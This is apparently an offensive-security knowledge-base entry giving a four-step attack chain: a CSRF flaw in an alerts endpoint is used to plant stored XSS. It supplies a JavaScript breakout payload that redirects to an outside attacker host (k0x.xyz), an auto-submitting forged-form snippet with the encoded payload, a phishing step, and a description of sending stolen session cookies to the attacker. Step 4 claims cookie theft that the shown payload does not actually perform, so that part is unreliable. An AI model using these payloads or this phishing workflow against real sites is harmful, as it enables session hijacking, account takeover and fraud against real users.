

---
tags:
  - csrf
  - xss
  - web
  - javascript
  - session-hijacking
type: attack_chain
tools:
  - '[[tools/Burp-Suite-Professional]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Create-Malicious-JavaScript-Payload-for-XSS]]'
  - '[[procedures/Craft-Malicious-Website-for-CSRF-Exploitation]]'
  - '[[procedures/Trick-Victim-into-Visiting-Malicious-Link]]'
  - '[[procedures/Execute-Payload-and-Perform-Unauthorized-Actions]]'
step_count: 4
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
updated_at: '2025-12-13T23:52:25.203Z'
description: >-
  A multi-stage attack combining CSRF and XSS to inject malicious JavaScript via
  the alerts creation endpoint, enabling session hijacking and unauthorized
  actions.
skill_level: intermediate
impact_level: high
id: 500f6033-1d41-4f15-b6a3-6ea3420026ca
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
---
# CSRF Exploitation Leading to Stored XSS in Alerts Creation Endpoint

Multi-stage attack chain demonstrating a complete workflow for exploiting a CSRF vulnerability in the alerts creation endpoint to inject and execute a stored XSS payload, allowing attackers to steal session cookies and perform unauthorized actions like changing settings or transferring funds.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite-Professional]]

### Target Environment

- Web application with alerts creation endpoint (e.g., POST /alerts)
- No CSRF token validation
- Insufficient input sanitization on 'source' parameter
- Authenticated user session

### Initial Access Requirements

- Victim must be authenticated to the target site
- Ability to send phishing links (e.g., via email or message)
- Attacker controls a malicious website

## Detailed Attack Procedures

### Step 1: Create Malicious JavaScript Payload for XSS
procedure: [[procedures/Create-Malicious-JavaScript-Payload-for-XSS]]

**Objective**: Develop a JavaScript payload that breaks out of the expected string context in the 'source' parameter and executes arbitrary code.

**Instructions**: Design the payload to close any open string or tag (e.g., SQL-like or HTML attribute), trigger an alert for proof, and redirect to the attacker's site after a delay. Use the following payload in the 'source[]' parameter:

Execute [[commands/xss-payload-injection]]:

```javascript
video"); alert('Hacked by k0x'); setTimeout(()=>location.href='https://k0x.xyz',5000);//
```

**Expected Output**: When injected and rendered, displays an alert box with 'Hacked by k0x' and redirects to https://k0x.xyz after 5 seconds.

**Success Indicators**:
- Payload syntax validated without errors
- Alert and redirect behavior confirmed in a test environment

### Step 2: Craft Malicious Website for CSRF Exploitation
procedure: [[procedures/Craft-Malicious-Website-for-CSRF-Exploitation]]

**Objective**: Build an HTML page that automatically submits a forged POST request to the target's /alerts endpoint, injecting the XSS payload using the victim's session.

**Instructions**: Use Burp Suite to generate the PoC form. Create an HTML file with hidden inputs for required parameters (csrf_token, search_type, search, source[]) and auto-submit via JavaScript. Include the encoded payload in source[].

First, encode the payload using [[commands/form-auto-submit]] for the form submission:

```javascript
history.pushState('','','/'); document.forms[0].submit();
```

The full form targets https://www.target.com/alerts with source[]=video%22);%0D%0Aalert('Hacked%20by%20k0x');%0D%0AsetTimeout((()=>location.href='https://k0x.xyz',5000));//

Host the page on an attacker-controlled server.

**Expected Output**: Page loads and silently posts the form data to the target endpoint.

**Success Indicators**:
- Form submission intercepted and verified in Burp Suite
- No user interaction required for submission

### Step 3: Trick Victim into Visiting Malicious Link
procedure: [[procedures/Trick-Victim-into-Visiting-Malicious-Link]]

**Objective**: Socially engineer the authenticated victim to visit the malicious site, triggering the CSRF request.

**Instructions**: Send the link to the crafted HTML page via phishing email, message, or other vector. Ensure the victim is logged into the target application.

No specific command; rely on social engineering. Monitor for visit via server logs.

**Expected Output**: Victim's browser loads the page, submits the form using their session cookies, creating the alert with XSS payload.

**Success Indicators**:
- Server access logs show victim IP
- Target application shows new alert created

### Step 4: Execute Payload and Perform Unauthorized Actions
procedure: [[procedures/Execute-Payload-and-Perform-Unauthorized-Actions]]

**Objective**: Trigger the stored XSS in the victim's context to steal data or perform actions.

**Instructions**: When the victim views the alerts page, the injected payload executes. It alerts 'Hacked by k0x', steals cookies (e.g., via document.cookie sent to attacker), and redirects.

Monitor attacker site for exfiltrated data from the payload's redirect or additional fetches.

**Expected Output**: Session cookies or other data received on attacker's server; victim sees alert and redirect.

**Success Indicators**:
- Alert observed in victim's browser
- Unauthorized actions (e.g., settings change) performed
- Data exfiltrated to https://k0x.xyz

## Attack Chain Summary

### Key Achievements

1. Bypassed CSRF protections via forged POST request
2. Injected and stored XSS payload in alerts
3. Executed JavaScript in victim context for session theft
4. Enabled unauthorized actions like fund transfers

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

---

*Last updated: 2023-10-01T00:00:00Z*
